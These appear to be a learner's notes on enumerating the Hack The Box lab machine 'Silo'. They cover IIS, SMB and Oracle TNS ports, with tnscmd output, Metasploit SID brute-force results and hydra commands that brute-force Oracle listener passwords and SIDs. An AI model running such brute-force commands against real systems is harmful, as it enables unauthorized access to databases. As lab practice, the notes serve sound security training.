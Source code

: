 # 10.10.10.82 - silo
## port 80 - microsoft iis
- currently brute focing dir
- /aspnet_client found via nikto through autorecon

## port 445 smb share, 135, 139 - netbios 
- ports most likely are related 
- nothing enumerated out of smb share

## ports 1521 and 49160 oracle tns --> nmap claims version 11.2.0.2.0
- usual service - rdbms - relational database
- nse scripts dont reveal anything worthy 
	* attempting to follow along to this article `https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573`
	* auto recon ran some of the scripts like tnscmd, but I did not understand the output
	* because I recieved an error when executing 
```
tnscmd10g version -h 10.10.10.82
sending (CONNECT_DATA=(COMMAND=version)) to 10.10.10.82:1521
	writing 90 bytes
	reading
	.e......"..Y(DESCRIPTION=(TMP=)(VSNNUM=186647040)(ERR=1189)(ERROR_STACK=(ERROR=(CODE=1189)(EMFI=4))))))))))))))
```
	* the article says that the listener may be password protected and to use hydra as a cracker

```
hydra -P /usr/share/wordlists/rockyou.txt -s 1521 10.10.10.82 oracle-listener
```
	* was taking too long. If it was supposed to brute rockyou.txt would have immediately found it
### Try to bruteforce SIDs using metasploit - auxiliary(scanner/oracle/sid_brute) 
```
[+] 10.10.10.82:1521      - 10.10.10.82:1521 Oracle - 'XE' is valid  
[+] 10.10.10.82:1521      - 10.10.10.82:1521 Oracle - 'PLSEXTPROC' is valid 
[+] 10.10.10.82:1521      - 10.10.10.82:1521 Oracle - 'CLREXTPROC' is valid
```
- have 3 valid SID's --> brute force logins

#### Conversely there was also a hydra command to brute force SID's where host.victim is the ip address
```
hydra -P /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid
```


